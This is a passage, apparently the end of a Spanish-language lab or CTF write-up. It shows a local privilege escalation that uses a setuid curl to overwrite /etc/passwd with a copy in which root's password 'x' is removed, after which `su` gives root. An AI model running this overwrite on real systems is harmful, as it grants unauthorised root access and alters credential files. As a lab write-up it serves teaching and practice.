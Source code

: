 ```css
  rabol:x:1001:1001:rabol,,,:/home/rabol:/bin/rbash
  systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
  systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
  messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
  systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
  sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
  smbuser:x:1000:1000:smbuser,,,:/home/smbuser:/bin/bash
  EOF
curl "file://$TF" -o "$LFILE"
```

Esto va a borrar la "x" de root.

Ahora solo ejecutamos `su` y ya seremos root:

![root](./images/chmod-4755/img/root.png)

Gracias por leer.
